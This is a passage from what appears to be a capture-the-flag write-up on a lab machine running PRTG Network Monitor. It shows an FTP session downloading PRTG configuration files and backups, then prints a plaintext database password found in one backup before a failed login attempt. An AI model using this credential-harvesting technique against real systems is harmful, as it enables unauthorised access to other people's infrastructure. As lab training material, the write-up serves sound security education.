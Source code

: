 02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
02-06-20  06:38PM       <DIR>          Logs (Web Server)
02-06-20  06:38PM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
02-06-20  06:39PM              1646822 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> mget PRTG*
mget PRTG Configuration.dat? y
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.71 secs (1.6090 MB/s)
mget PRTG Configuration.old? y
200 PORT command successful.
125 Data connection already open; Transfer starting.
y226 Transfer complete.
1189697 bytes received in 0.71 secs (1.6085 MB/s)
mget PRTG Configuration.old.bak? y
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 0.66 secs (1.6613 MB/s)
mget PRTG Graph Data Cache.dat? n
ftp>
{% endhighlight %}

Excellent 3 different config files.  Unfortunately the .dat and .old file have encrypted passwords, but `PRTG Configuration.old.dat` has soemthing tasty!

{% highlight xml %}
<dbpassword>

PrTg@dmin2018
</dbpassword>
{% endhighlight %}

Logging in with those credentials results in Failure! =(.  
